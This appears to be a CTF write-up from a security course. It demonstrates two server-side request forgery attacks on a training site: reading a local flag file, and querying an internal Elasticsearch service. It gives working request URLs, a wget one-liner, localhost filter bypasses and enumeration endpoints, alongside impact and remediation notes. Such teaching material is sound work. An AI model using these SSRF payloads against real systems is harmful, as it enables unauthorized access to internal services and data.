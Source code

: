 ```yaml
---
layout: post
title: COMP6843 - Extended Break 4
date: 2018-05-20
categories: ['writeup']
---
```

# Server Side Request Forgery: Local Files
> Target: https://ssrfsquared.ns.agency/  

___
### Proof of Concept

1. Intercept the requests made between the front and back end of the site during the initial load  
  
2. Notice that there is a request for   
   ```ruby
   https://ssrfsquared.ns.agency/static?r=http%3A%2F%2F127.0.0.1%3A9447%2Fstyles.css
   ```
   which can also be confirmed by viewing the source of the page.
3. This becomes an entry point for an attacker to probe the internal network  

4. Some files return the same content when accessed externally or internally such as `index.html` or `styles.css`  

5. When viewing   
   `https://ssrfsquared.ns.agency/static?r=http://127.0.0.1:9447/styles.css`   
   there is a hint that something else is on the server  

6. Logically we try other URIs and get the flag:
   `https://ssrfsquared.ns.agency/static?r=http://127.0.0.1:9447/flag`  

   ```bash
   wget -qO- https://ssrfsquared.ns.agency/static?r=http://127.0.0.1:9447/flag
   ```  
  
```ruby
 sectalks{i_wonder_what_else_is_running_locally}
 ```
   
> **<u>Extra Info</u>**:   
`localhost` gives the message _`"big sorry, we broke localhost, try 127.0.0.1"`_ but this can be circumvented by using the following: **`127.0.0.1`**, **`0`**, **`Localhost`** / **`lOcAlHoSt`** etc 

___
### Impact 
**P2 - High**

Attackers can access localhost and read files stored in the working directory of the application, which may contain data that is not meant for public viewing. In this case only static files are retrieved, but in a real world scenario an attacker may be able to find other files (eg. _.php_ files) which may lead to code execution. If combined with a directory traversal vulnerability, the attacker can also read any files in the entire filesystem with the right permissions.

___
### Remediation 

Avoid querying files directly through URL requests using localhost, or perform server-side validation on the URLs requested if it cannot be avoided. Any important files in the working directory should have their permissions set so that they are not viewable by the web application if not necessary _(Principal of Least Privilege)_.  
  
<div class="divider"></div>
# Server Side Request Forgery: Local Services
> Target: https://ssrfsquared.ns.agency/

### Proof of Concept

The search functionality of the site is powered by _Elastic Search_, which serves up different Phrack articles.
There is also a flag stored in the service somewhere, as searching for `FLAG` or `flag` would reveal
```
The flag is sectalks{REDACTED}
```
hinting that it should be accessed locally. 

1. By doing port enumeration via GET requests or simply by guessing common port numbers, we can find the service at  
   `https://ssrfsquared.ns.agency/static?r=http://127.0.0.1:9200/`  
   <br/>
2. Utilizing the `_search` function we can search for the flag:  
   `https://ssrfsquared.ns.agency/static?r=http://0:9200/_search?q=sectalks`  
```ruby
   {
  "took": 1,
  "timed_out": false,
  "_shards": {
    "total": 5,
    "successful": 5,
    "failed": 0
  },
  "hits": {
    "total": 1,
    "max_score": 8.236906,
    "hits": [
      {
        "_index": "phrack",
        "_type": "article",
        "_id": "976",
        "_score": 8.236906,
        "_source": {
          "content": "The flag is sectalks{ssrf_for_fun_and_profit}",
          "title": "Flag",
          "author": "sy + grc",
          "issue": 0,
          "number": 0
        }
      }
    ]
  }
}
```  

3. The flag can also be found by enumerating all phrack articles   
    (Although not recommended)     
    `https://ssrfsquared.ns.agency/static?r=http://0:9200/phrack/article/976`  
 
<br/> 
> **Extra Info**:  
- A lot of additional information can be found by executing   
  any of the following commands 
    
```
http://0:9200/_cluster/settings
http://0:9200/_cluster/state
http://0:9200/phrack/article/14
http://0:9200/_tasks/
http://0:9200/_nodes?pretty=true
http://0:9200/_mapping
http://0:9200/_cat&?pretty=true
```

___


### Impact 
**P2 - High**

Attackers can enumerate port numbers and access services that are not public-facing, which might lead to the disclosure of data or unauthorized access to the internal network. This can allow for lateral movement or even worse privilege escalation, depending on the access controls within the internal network.

___
### Remediation

Similar to above, avoid sending requests to the internal network and to perform validation for requests if necessary. It is possible to implement a _Web Application Firewall_ (WAF) but determined attackers may be able to bypass the WAF with specially crafted URLs (eg. by double encoding or using multibyte characters)

Elastic Search by itself does not support authentication so another method of solving this problem is to never assume the internal network is safe, and to install proper access controls on any/all internal services. 


